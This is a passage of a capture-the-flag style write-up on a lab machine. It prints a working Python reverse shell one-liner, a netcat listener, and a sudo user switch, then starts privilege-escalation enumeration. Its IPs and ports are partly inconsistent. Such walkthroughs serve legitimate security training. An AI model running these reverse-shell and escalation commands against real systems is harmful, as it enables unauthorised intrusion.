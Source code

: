 	/usr/bin/python3

Good, we have python. Using the python reverse shell payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) on Github:

```bash
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
Starting a netcat listener on `4444`:

	$ nc -lnvp 4444                            
	listening on [any] 4444 ...

I entered the command in the web shell and got a local shell as www-data. I then used my previous idea and ran `/bin/bash` as user `scriptmanager` 
to change users.

```bash
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.68] 35620
$ pwd
pwd
/home/arrexel
$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/home/arrexel$ 
```
### Escalating from scriptmanager

We now need to find out what script manager can do.

```bash
scriptmanager@bashed:/home/arrexel$ cd /
cd /
scriptmanager@bashed:/$ ls -al
ls -al
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot
drwxr-xr-x  19 root          root           4240 May  8 12:12 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 128 root          root              0 May  8 12:11 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            500 May  8 12:12 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 May  8 13:04 scripts
.
.
.

```
Seems like we own a directory called `scripts` in `/`.
